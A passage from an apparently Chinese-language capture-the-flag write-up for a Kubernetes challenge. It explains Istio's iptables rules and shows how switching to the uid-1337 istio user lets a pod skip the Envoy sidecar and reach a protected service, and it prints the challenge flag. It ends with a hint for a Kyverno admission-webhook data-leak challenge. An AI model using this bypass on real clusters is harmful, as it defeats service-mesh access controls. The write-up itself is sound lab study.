 ```
-A ISTIO_OUTPUT ! -d 127.0.0.1/32 -o lo -m owner --uid-owner 1337 -j ISTIO_IN_REDIRECT
-A ISTIO_OUTPUT -o lo -m owner ! --uid-owner 1337 -j RETURN
-A ISTIO_OUTPUT -m owner --uid-owner 1337 -j RETURN
-A ISTIO_OUTPUT ! -d 127.0.0.1/32 -o lo -m owner --gid-owner 1337 -j ISTIO_IN_REDIRECT
-A ISTIO_OUTPUT -o lo -m owner ! --gid-owner 1337 -j RETURN
-A ISTIO_OUTPUT -m owner --gid-owner 1337 -j RETURN
-A ISTIO_OUTPUT -d 127.0.0.1/32 -j RETURN
-A ISTIO_OUTPUT -j ISTIO_REDIRECT
-A ISTIO_REDIRECT -p tcp -j REDIRECT --to-ports 15001
COMMIT
```

没看太懂iptables规则，问了一下gpt大概是下面这些：

```

-A ISTIO_OUTPUT ! -d 127.0.0.1/32 -o lo -m owner --uid-owner 1337 -j ISTIO_IN_REDIRECT
-A ISTIO_OUTPUT -o lo -m owner ! --uid-owner 1337 -j RETURN
-A ISTIO_OUTPUT -m owner --uid-owner 1337 -j RETURN
-A ISTIO_OUTPUT ! -d 127.0.0.1/32 -o lo -m owner --gid-owner 1337 -j ISTIO_IN_REDIRECT
-A ISTIO_OUTPUT -o lo -m owner ! --gid-owner 1337 -j RETURN
-A ISTIO_OUTPUT -m owner --gid-owner 1337 -j RETURN
```

如果目的地址不是本地回环且输出接口是lo，uid是1337和gid是1337就重定向到ISTIO_IN_REDIRECT，但是下面的`-A ISTIO_OUTPUT -m owner --uid-owner 1337 -j RETURN`和`-A ISTIO_OUTPUT -m owner --gid-owner 1337 -j RETURN`又针对uid是1337和gid是1337的用户直接放行不重定向。

因为不太懂iptables所以不确定是不是这样理解，但确实1337可以绕过：[Consider protecting envoy from being bypassed by an app · Issue #4286 · istio/istio](https://github.com/istio/istio/issues/4286)

issue也提到确实需要容器中有root权限。

```bash
cat /etc/passwd|grep -i "1337"
istio:x:1337:1337::/home/istio:/bin/sh

su istio

curl istio-protected-pod-service.k8s-lan-party.svc.cluster.local
wiz_k8s_lan_party{only-leet-hex0rs-can-play-both-k8s-and-linux}
```

## LATERAL MOVEMENT

> Where pods are being mutated by a foreign regime, one could abuse its bureaucracy and leak sensitive information from the [administrative](https://kubernetes.io/docs/reference/access-authn-authz/extensible-admission-controllers/#request) services.
>
> Need a hand crafting AdmissionReview requests? Checkout https://github.com/anderseknert/kube-review.
>
> This exercise consists of three ingredients: kyverno's hostname (which can be found via dnscan), the relevant HTTP path (which can be found in Kyverno's source code) and the AdmissionsReview request.
